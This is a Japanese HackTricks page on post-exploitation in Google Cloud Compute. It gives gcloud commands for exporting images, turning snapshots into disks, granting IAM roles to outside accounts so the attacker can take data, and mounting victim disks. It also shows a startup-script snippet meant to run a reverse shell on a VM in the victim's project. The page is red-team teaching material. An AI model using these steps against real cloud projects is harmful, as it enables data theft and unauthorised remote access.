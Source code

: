 # GCP - Compute Post Exploitation

{% hint style="success" %}
AWSハッキングを学び、実践する:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCPハッキングを学び、実践する: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **ハッキングのトリックを共有するために、[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。**

</details>
{% endhint %}

## Compute

ComputeおよびVPC（ネットワーキング）に関する詳細情報は、以下を確認してください:

{% content-ref url="../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

### 画像をローカルにエクスポートおよび検査する

これにより、攻撃者は**既存の画像に含まれるデータにアクセス**したり、**実行中のVMの新しい画像を作成**して、そのデータにアクセスすることができます。実行中のVMにアクセスすることなく。

VM画像をバケットにエクスポートし、その後ダウンロードしてローカルにマウントすることが可能です。 

{% code overflow="wrap" %}
```bash
gcloud compute images export --destination-uri gs://<bucket-name>/image.vmdk --image imagetest --export-format vmdk
# The download the export from the bucket and mount it locally
```
{% endcode %}

このアクションを実行するには、攻撃者はストレージバケットに対する権限が必要であり、確実に**cloudbuildに対する権限**が必要です。これは**サービス**であり、エクスポートを実行するように求められます。\
さらに、これが機能するためには、codebuild SAとcompute SAが特権的な権限を持っている必要があります。\
cloudbuild SA `<project-id>@cloudbuild.gserviceaccount.com` は以下の権限が必要です：

* roles/iam.serviceAccountTokenCreator
* roles/compute.admin
* roles/iam.serviceAccountUser

そして、SA `<project-id>-compute@developer.gserviceaccount.com` は以下の権限が必要です：

* roles/compute.storageAdmin
* roles/storage.objectAdmin

### スナップショットとディスクをローカルにエクスポートおよび検査する

スナップショットとディスクを直接エクスポートすることはできませんが、**スナップショットをディスクに変換し、ディスクをイメージに変換する**ことは可能であり、**前のセクション**に従って、そのイメージをエクスポートしてローカルで検査することができます。

{% code overflow="wrap" %}
```bash
# Create a Disk from a snapshot
gcloud compute disks create [NEW_DISK_NAME] --source-snapshot=[SNAPSHOT_NAME] --zone=[ZONE]

# Create an image from a disk
gcloud compute images create [IMAGE_NAME] --source-disk=[NEW_DISK_NAME] --source-disk-zone=[ZONE]
```
{% endcode %}

### VMを作成してイメージを検査する

攻撃者が**イメージを作成した**場所から**イメージに保存されたデータ**や**実行中のVM**にアクセスすることを目的として、外部アカウントにイメージへのアクセスを許可することが可能です:
```bash
gcloud projects add-iam-policy-binding [SOURCE_PROJECT_ID] \
--member='serviceAccount:[TARGET_PROJECT_SERVICE_ACCOUNT]' \
--role='roles/compute.imageUser'
```
そして、それから新しいVMを作成します：
```bash
gcloud compute instances create [INSTANCE_NAME] \
--project=[TARGET_PROJECT_ID] \
--zone=[ZONE] \
--image=projects/[SOURCE_PROJECT_ID]/global/images/[IMAGE_NAME]
```
もし画像に対して外部アカウントのアクセスを与えられなかった場合、被害者のプロジェクトでその画像を使用してVMを起動し、**メタデータにリバースシェルを実行させる**ことで、パラメータを追加して画像にアクセスすることができます:
```bash
--metadata startup-script='#! /bin/bash
echo "hello"; <reverse shell>'
```
### VMにアタッチしてスナップショット/ディスクを検査する

**ディスクまたはスナップショットに保存されたデータにアクセスすることを目的として、スナップショットをディスクに変換し、ディスクをイメージに変換し、前の手順に従うことができます。**

または、**外部アカウントにディスクへのアクセスを付与する**ことができます（出発点がスナップショットの場合は、スナップショットへのアクセスを付与するか、そこからディスクを作成します）：
```bash
gcloud projects add-iam-policy-binding [PROJECT_ID] \
--member='user:[USER_EMAIL]' \
--role='roles/compute.storageAdmin'
```
**インスタンスにディスクをアタッチ**する:
```bash
gcloud compute instances attach-disk [INSTANCE_NAME] \
--disk [DISK_NAME] \
--zone [ZONE]
```
ディスクをVM内にマウントする：

1.  **VMにSSH接続する**：

```sh
gcloud compute ssh [INSTANCE_NAME] --zone [ZONE]
```
2. **ディスクを特定する**：VM内に入ったら、ディスクデバイスをリストして新しいディスクを特定します。通常、`/dev/sdb`、`/dev/sdc`などとして見つけることができます。
3. **ディスクをフォーマットしてマウントする**（新しいまたは生のディスクの場合）：
*   マウントポイントを作成する：

```sh
sudo mkdir -p /mnt/disks/[MOUNT_DIR]
```
*   ディスクをマウントする：

```sh
sudo mount -o discard,defaults /dev/[DISK_DEVICE] /mnt/disks/[MOUNT_DIR]
```

もし**スナップショットやディスクに外部プロジェクトへのアクセスを与えることができない場合**、**スナップショット/ディスクと同じプロジェクト内のインスタンスでこれらの操作を実行する必要があるかもしれません**。

{% hint style="success" %}
AWSハッキングを学び、実践する：<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCPハッキングを学び、実践する： <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**テレグラムグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **ハッキングのトリックを共有するには、[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。**

</details>
{% endhint %}
